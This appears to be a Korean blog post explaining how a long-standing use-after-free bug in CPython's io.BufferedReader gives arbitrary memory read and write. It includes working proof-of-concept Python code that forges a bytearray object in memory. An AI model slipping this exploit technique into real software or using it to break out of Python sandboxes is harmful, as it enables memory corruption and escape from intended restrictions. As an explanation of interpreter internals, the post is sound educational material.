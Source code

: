 ```yaml
---
author: kiwiyou
pubDatetime: 2024-01-19T05:47:51.188Z
title: CPython에서 임의 메모리 읽고 쓰기
slug: unsafe-python
featured: true
draft: false
tags:
  - Python
description: CPython에서 임의 메모리에 접근하는 방법을 소개합니다.
comment: true
---
```


Python으로 할 수 있는 것들을 찾아보다, [이 글](https://pwn.win/2022/05/11/python-buffered-reader.html)을 보게 되었습니다.
해당 글은 CPython 2.7에서부터 내려온 한 버그를 소개하고 있습니다.

```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True

f = io.BufferedReader(File())
f.read(1)                       # get view of buffer used by BufferedReader
del f                           # deallocate buffer
view = view.cast('P')
L = [None] * len(view)          # create list whose array has same size
                                # (this will probably coincide with view)
view[0] = 0                     # overwrite first item with NULL
print(L[0])                     # segfault: dereferencing NULL
```

위 코드는 다음과 같이 작동합니다.

1. `BufferedReader`의 내부 버퍼를 가리키는 `memoryview`를 만듭니다.
2. `BufferedReader`와 내부 버퍼를 할당 해제합니다.
3. 내부 버퍼와 같은 길이를 가지도록 리스트를 만듭니다. 리스트가 할당한 공간은 `memoryview`가 가리키는 공간과 일치하게 됩니다.
4. `memoryview`의 첫 번째 값을 0으로 바꾸면, 리스트가 할당한 공간의 첫 번째 값도 0이 됩니다.
5. CPython의 모든 객체는 주소로 관리되므로 리스트의 첫 번째 원소를 가져오려 시도하면 주소 0을 역참조하게 됩니다.

3번 동작은 힙 할당이 가장 최근에 생긴 빈 공간을 재사용하려는 동작에 기인합니다. Use After Free 버그라고도 합니다.

위 코드를 통해 원하는 주소의 값을 CPython 객체로서 불러오는 것이 가능합니다.
따라서 임의의 바이트열을 메모리상에 띄우고 그 주소를 알 수 있다면 임의의 CPython 객체의 모조품을 만들 수 있습니다.

바이트열을 메모리상에 띄우는 것은 `bytes` 클래스를 이용할 수 있습니다.

```c
typedef struct {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
    Py_ssize_t ob_size;
    Py_hash_t ob_shash;
    char ob_sval[1];
} PyBytesObject;
```

`PyBytesObject`의 정의를 보면, 실제 바이트열이 32바이트 오프셋을 두고 존재함을 알 수 있습니다.
`bytes` 객체에 원하는 정보를 담고, `id(bytes)+32`를 하면 바이트열의 주소를 알 수 있습니다.

bytes는 불변이므로, 임의 메모리를 수정하기 위해서는 `bytearray` 객체의 모조품을 만들 필요가 있습니다.

```c
typedef struct {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
    Py_ssize_t ob_size;
    Py_ssize_t ob_alloc;
    char *ob_bytes;
    char *ob_start;
    Py_ssize_t ob_exports;
} PyByteArrayObject;
```

`ob_size`는 실제 길이, `ob_alloc`은 할당 길이, `ob_bytes`는 할당 주소, `ob_start`는 실제 시작 주소입니다.
이를 원하는 주소와 길이로 지정해 주면 임의 주소의 메모리를 읽고 쓸 수 있습니다.

```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True

f = io.BufferedReader(File())
f.read(1)
del f
view = view.cast('P')
L = [None] * len(view)

import struct
my_text = b"Hello World!"
fake_array = struct.pack('nPnnPPn', 9, id(bytearray), len(my_text), len(
    my_text), id(my_text)+32, id(my_text)+32, 0)
view[0] = id(fake_array)+32
print(L[0])
```
